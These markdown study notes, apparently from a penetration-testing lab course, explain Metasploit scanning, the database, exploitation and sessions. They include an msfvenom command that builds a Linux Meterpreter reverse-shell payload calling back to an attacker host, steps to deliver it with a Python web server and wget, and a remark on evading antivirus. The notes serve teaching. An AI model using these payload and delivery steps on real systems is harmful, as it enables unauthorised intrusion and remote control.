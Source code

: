 # Exploitation using Metasploit

* [ ] How to scan target systems using Metasploit.
* [ ] How to use the Metasploit database feature.
* [ ] How to use Metasploit to conduct a vulnerability scan.
* [ ] How to use Metasploit exploit vulnerable services on target systems.
* [ ] How `msfvenom` can be used to create payloads and obtain a Meterpreter session on the target system.

## Scanning

### Port Scanning

Metasploit has many modules to scan open ports on the target system and network.

* List potential port scanning modules available using `search portscan` command.

Options:

* **CONCURRENCY** : Number of targets to be scanned simultaneously.
* **PORTS** : Port range to be scanned. Nmap will scan the 1000 most used ports, while Metasploit will scan port numbers from 1 to 10000.
* **RHOSTS** : Target or target network to be scanned.
* **THREADS** : Number of threads that will be used simultaneously. More threads = faster scans.

#### UDP Service Identification

`scanner/discovery/udp_sweep` module will allow to quickly identify services running over the UDP (User Data Protocol).

#### SMB Scans

On a corporate network, `smb_enumshares` and `smb_version` to identify specific services on system.

Metasploit has many modules that can help you have a better understanding of the target system and possibly help you find vulnerabilities. It is always worth performing a quick search to see if there are any modules that could be helpful based on your target system.

\[+] 10.10.192.91: - 10.10.192.91:22 - TCP OPEN \[+] 10.10.192.91: - 10.10.192.91:21 - TCP OPEN \[+] 10.10.192.91: - 10.10.192.91:139 - TCP OPEN \[+] 10.10.192.91: - 10.10.192.91:445 - TCP OPEN \[+] 10.10.192.91: - 10.10.192.91:8000 - TCP OPEN \[\*] 10.10.192.91: - Scanned 1 of 1 hosts (100% complete)

## The Metasploit Database

Metasploit has a database function to simplify project management and avoid possible confusion when setting up parameter values.

### Starting Postgresql and `msfconsole` Database

You will first need to start the PostgreSQL database, which Metasploit will use with the following command:

`systemctl start postgresql`

Then initialize Metasploit Database using the `msfdb init` command and `db_status` to check the status after launching msfconsole.

### Listing Workspaces

The database feature allows to create workspaces to isolate different projects. List available workspaces using the `workspace` command.

* Can add a workspace using the `-a` parameter or delete a workspace with `-d` parameter.

### Changing Workspaces

* Switch between workspaces by typing `workspace` followed by the desired workspace name.

#### Workspace Help

* Use `workspace -h` command to list available options for the `workspace` command.

#### Database Backend Commands

* Once Metasploit is launched with a database, the `help` command will show the Database Backends Commands menu.

#### db\_nmap Command

* Running Nmap scan with `db_nmap` will save the results to the database.

#### Hosts and Services

* Can reach information relevant to hosts and services running on target systems with the `hosts` and `services` commands.

Once the host information is stored in the database, you can use the `hosts -R` command to add this value to the RHOSTS parameter.

### Vulnerability Scanning

Metasploit allows to quickly identify some critical vulnerabilities that could be considered as "low hanging fruit". Usually refers to easily identifiable and exploitable vulnerabilities that could potentially allow access.

`info` command for any module to have a better understanding of its use and purpose.

### Exploitation

Metasploit is an exploitation framework and exploits are the most populated module category.

* Search for exploits using the `search` command.
* Obtain more information about the exploit using the `info` command.
* Launch the exploit using `exploit`.

The process seems simple but a successful outcome depends on a thorough understanding of services running on a target system.

#### Available Payloads

Most of the exploits have a preset default payload.

* Can always use the `show payloads` command to list other commands for that specific exploit.
* Use `set payload` command to select payload of choice.

#### Background

Once a session is opened, `CTRL+Z` to background or abort it using `CTRL+C`.

#### Working with Sessions

The `sessions` command will list all active sessions.

* Interact with any existing session using the `sessions -i` command followed by the session ID.

## Msfvenom

Replaces Msfpayload and Msfencode to generate payloads.

* Msfvenom will allow to access all payloads in the Metasploit framework.
* Msfvenom allows to create payloads in many different formats (PHP, exe, dll, elf, etc.) and for many different target systems (Apple, Windows, Android, Linux, etc.).

### Output Formats

* Can generate stand-alone payloads or get a usable raw format with `msfvenom --list formats`.

### Encoders

Encoders do not aim to bypass antivirus installed on the target system. While it can be effective against some antivirus software, using modern obfuscation techniques or learning methods to inject shell code is better solution to the problem.

* Usage of encoding with `-e` parameter.

### Handlers

Similar to exploits using a reverse shell, you will need to be able to accept incoming connections generated by the MSFvenom payload.

* The term commonly used to receive a connection from a target is "catching a shell". Reverse shells or Meterpreter callbacks generated in the MSFvenom payload can be easily caught using a handler.
* Multi handler supports all Metasploit payloads and can be used for Meterpreter as well as regular shells.
* Multi Handler to receive the incoming connections with `use exploit/multi/handler` command.

#### Other Payloads

Linux Executable and Linkable Format (elf) `msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=10.13.40.171 LPORT=4444 -f elf > rev_shell.elf`

Transfer to the target machine by starting a Python web serer on attacking machine with `python3 -m http.server 9000` command. Then use wget to download it to the target machine (Linux)

## Summary

* Database feature can help with penetration testing with multiple targets.
* Creation of stand-alone Meterpreter payloads.
  * Helpful in situations where we can upload a file to the target system or have the ability to download files to the target system.
* Meterpreter is a powerful tool that offers a lot of features during the post-exploitation phase.
